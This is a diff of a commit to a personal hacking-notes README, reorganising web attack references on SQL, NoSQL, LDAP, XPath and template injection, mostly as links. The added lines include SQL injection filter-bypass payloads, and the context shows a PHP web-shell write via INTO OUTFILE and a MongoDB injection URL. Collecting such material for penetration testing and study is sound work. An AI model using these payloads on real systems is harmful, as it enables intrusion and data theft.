

Before and after one commit to 4nuit/Hacking, a Markdown page: web/README.md, the part around one of its changes. Shown at 96% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
update serv/sqli

````diff
--- a/web/README.md
+++ b/web/README.md
@@ -348,7 +367,21 @@ UNION SELECT "<? system($_REQUEST['cmd']); ?>" INTO OUTFILE "/tmp/shell.php"-
 
 - https://pentestmonkey.net/category/tools/audit
 
-`Protection`: [quoted & prepared statements](https://phpdelusions.net/mysqli_examples/prepared_select)
+### Fragmented
+
+- https://www.invicti.com/blog/web-security/fragmented-sql-injection-attacks/
+
+### PDO prepared statements (Emulation MODE)
+
+- https://slcyber.io/assetnote-security-research-center/a-novel-technique-for-sql-injection-in-pdos-prepared-statements/  # Test \'? and ?%00 escapes
+- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#pdo-prepared-statements
+
+#### Second Order
+
+- https://portswigger.net/kb/issues/00100210_sql-injection-second-order
+- https://book.hacktricks.wiki/en/pentesting-web/sql-injection/sqlmap/second-order-injection-sqlmap.html
+- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#second-order-sql-injection
+
 
 ### Bypass Filters
 
@@ -357,7 +390,16 @@ UNION SELECT "<? system($_REQUEST['cmd']); ?>" INTO OUTFILE "/tmp/shell.php"-
 - http://pims.tuxfamily.org/blog/2011/04/write-up-sha1-is-fun-plaidctf/
 
 
-## NoSQLi
+```sql
+'/**/UN/**/ION/**/SEL/**/ECT/**/password/**/FR/OM/**/Users/**/WHE/**/RE/**/username/**/LIKE/**/'xyz'-- d
+' UNION SELECT 0x73272067726f757020627920322d2d2064-- d
+%20 %09 %0a %0b %0c %0d %a0 /**/
+mid(password,1,1) = 'a'     # substring alternative
+```
+
+### Others
+
+#### NoSQLI
 
 - https://www.mongodb.com/community/forums/t/unrecognized-pipeline-stage-name-search/111883
 - https://www.dailysecurity.fr/nosql-injections-classique-blind/
@@ -366,34 +408,23 @@ UNION SELECT "<? system($_REQUEST['cmd']); ?>" INTO OUTFILE "/tmp/shell.php"-
 https://www.vulnerable.com/search?id=23277%22}},{%22$lookup%22:{%22from%22:%22flag%22,%22as%22:%22str%22,%22foreignField%22:%22flag%22,%22localField%22:%22flag
 ```
 
+#### LDAP injection
 
-## SSTI
+- https://wiki.zenk-security.com/doku.php?id=failles_web:ldap_injection
+
+#### XPATH injection
+
+- https://wiki.zenk-security.com/doku.php?id=failles_web:xpath_injection
+
+
+## Server Side Template Injection
 
 - https://cheatsheet.hackmanit.de/template-injection-table/
-- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
-
-### .NET - Razor
-
 - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/ASP.md
-
-### Java - EL, Freemarker, Groovy, Spring
-
 - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Java.md
-
-### Node - HandleBars, Lodash, Pug
-
 - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/JavaScript.md
-
-### PHP - Blade, Smarty, Twig, Latte
-
 - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/PHP.md
-
-### Python - Django, Jinja2, Tornado, Mako
-
-- https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.html
-
-### Ruby - ERB, Slim
-
+- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md
 - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Ruby.md
 
 
````
Also changed, not shown: other parts of web/README.md (+48 -23 lines).
